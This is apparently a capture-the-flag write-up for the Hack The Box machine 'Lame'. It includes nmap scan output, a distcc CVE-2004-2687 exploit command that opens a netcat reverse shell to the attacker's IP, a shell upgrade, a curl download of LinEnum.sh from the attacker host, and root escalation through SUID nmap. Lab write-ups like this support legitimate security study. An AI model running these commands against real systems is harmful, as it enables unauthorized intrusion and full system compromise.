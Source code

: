 ## Nmap Port Scanning
```bash
┌──(saxon㉿Saxon)-[~/Desktop]
└─$ nmap -Pn -sV -sC -p 21,22,445,3632  10.10.10.3
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 14:45 EDT
Nmap scan report for 10.10.10.3
Host is up (0.023s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.15
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h57m32s, deviation: 2h49m45s, median: -2m30s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-08-29T14:42:59-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.92 seconds

```
#### 21/tcp  ftp
- Anonymous login is allow but nothing interesting there.
- vsftpd 2.3.4 has a known backdoor due to supply chain attack but this one is not affected.
#### 445/tcp  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
-  searchsploit reveals RCE vulnerability with a metasploit module in smbd 3.0.20 which grants instant "root" privilege :__
```bash
┌──(saxon㉿Saxon)-[~/Desktop]
└─$ searchsploit samba 3.0.20
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
```
- Python Script
```bash
https://github.com/un4gi/CVE-2007-2447/tree/main
```
![[Pasted image 20231221002137.png]]
#### 3632/tcp distccd 
- Distcc is designed to speed up compilation by taking advantage of unused processing power on other computers. A machine with distcc installed can send code to be compiled across the network to a computer which has the distccd daemon and a compatible compiler installed
- <mark>Exploitation</mark>
```bash
#CVE-2004-2687
#Establishing reverse shell
nmap -Pn -p 3632 10.10.10.3  --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc 10.10.14.15 8080 -e /bin/bash'"
#reverse shell listener
nc -lnvp 8080
```
- <mark>Post-Exploitation</mark>
	- <mark>Upgrade Shell with following commands</mark>
	```bash
	# In reverse shell
	python -c 'import pty; pty.spawn("/bin/bash")'
	Ctrl-Z
	# In Kali
	stty raw -echo;fg;reset
	# In reverse shell 
	export TERM=xterm-256
	```
	- <mark>Transfer LinEnum.sh</mark>
	```bash
	#Attacker Machine
	python3 -m http.server
	#Victim Machine
	curl http://10.10.14.15:8000/LinEnum.sh -o LinEnum.sh
	```
	- <mark>Privilege Escalation</mark>
	```bash
	#Interesting Output From LinEnum.sh
	[+] Possibly interesting SUID files:
	-rwsr-xr-- 1 root dhcp 2960 Apr  2  2008 /lib/dhcp3-client/call-dhclient-script
	-rwsr-xr-x 1 root root 780676 Apr  8  2008 /usr/bin/nmap
	```
	
	```bash
	# Abuse nmap with SUID
	nmap --interactive
	# Within Interactive mode
	!sh
	```